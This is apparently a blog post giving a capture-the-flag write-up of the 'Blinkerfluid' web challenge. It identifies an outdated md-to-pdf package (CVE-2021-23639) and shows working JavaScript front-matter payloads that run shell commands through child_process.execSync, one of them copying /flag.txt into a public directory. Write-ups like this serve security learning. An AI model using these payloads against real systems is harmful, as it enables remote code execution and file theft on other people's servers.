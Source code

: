 .. title: Cyber Apocalypse 2022 - Blinkerfluid
.. slug: cyber-apocalypse-2022-blinkerfluid
.. date: 2022-05-30 11:33:08 UTC-04:00
.. tags:
.. category: hacking, ctf writeup
.. link:
.. description:
.. type: text

This was the first web challenge I solved in the Cyber Apocalypse 2022 CTF.
This challenge had a downloadable portion with a fake flag as well as a web instance with an actual flag.
Since the CTF has been over for a while and I didn't capture any of the actual challenge, I am recreating the steps I took here using the docker container.

.. TEASER_END

Recon
======

First, I took a look at the challenge in a browser.

.. image:: /images/blinkerfluids/initial_1.png

Invoices can be viewed and created.

.. image:: /images/blinkerfluids/invoice_create_1.png

My first thought was that there might be server side template injection (SSTI).

.. image:: /images/blinkerfluids/invoice_ssti_1.png
.. image:: /images/blinkerfluids/invoice_ssti_2.png

Unfortunately, that was not the case.

Analyze the source
==================

For web challenges with downloadable docker instances, the first thing is to figure out what the back end is.
Reading the source files here, this is a node.js app.
For node apps, the best place to start looking is in the package.json.
I want to see if there are any out of date or known vulnerable plugins.
This app is using the following:

"express": "4.17.3",
"md-to-pdf": "4.1.0",
"nunjucks": "3.2.3",
"sqlite-async": "1.1.3",
"uuid": "8.3.2"

``md-to-pdf`` is the first one that I look into more, because I know that there is an RCE vulnerability in certain versions.
This specific vulnerability it tracked as `CVE-2021-23639 <https://nvd.nist.gov/vuln/detail/CVE-2021-23639>`_.
A proof of concept is available at `Synk <https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880>`_`

The poc was modified to output to a directory that is easy to access ``---jsn((require("child_process")).execSync("id > /app/static/RCE.txt"))n---RCE``

Unfortunately, all I got was "something went wrong" and some error messages in the docker log.
From previous experience, I knew that the ``n`` in that line might need to be ``\n``, so I tried that as well.
That didn't work either.
Then I decided that it might literally need to be a newline in the textbox.

::

  ---js
  ((require("child_process")).execSync("id > /app/static/RCE.txt"))
  ---

and that worked.

.. image:: /images/blinkerfluids/poc_result.png

Now, just change the exploit to copy the flag to somewhere we can read.

::

  ---js
  ((require("child_process")).execSync("cp /flag.txt /app/static/flag.txt"))
  ---

.. image:: /images/blinkerfluids/flag.png

There's the flag.
